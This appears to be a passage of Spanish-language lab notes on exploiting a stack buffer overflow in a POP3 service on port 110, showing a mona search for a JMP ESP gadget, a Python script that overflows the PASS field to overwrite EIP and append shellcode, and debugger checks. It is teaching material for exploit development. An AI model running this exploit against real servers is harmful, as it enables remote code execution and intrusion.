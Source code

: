 ```
!mona find -s "\xFF\xE4" -m <nombre_del_modulo>
```

![[Pasted image 20231020094627.png]]

escogemos una dirección cualquiera que no contenga los **badchars**

modificamos el script de python nuevamente y cambiamos nuestro **EIP** por la dirección extraída anteriormente

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L",<direccion_modulo>)
shellcode = (b<shellcode>)

payload = before_eip + eip + shellcode

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

precionamos ![[Pasted image 20231020095233.png]] y colocamos **0x+"direccion_modulo"**

Realizamos un **Breackpoint**

![[Pasted image 20231020095158.png]]

Ejecutamos el script y miramos si el **EIP** vale lo mismo que el modulo elegido **5F4C4D13**

![[Pasted image 20231020095622.png]]
![[Pasted image 20231020095642.png]]

ejecutamos un salto ![[Pasted image 20231020095747.png]] y vemos si ahora **EIP** se iguala a **ESP** 
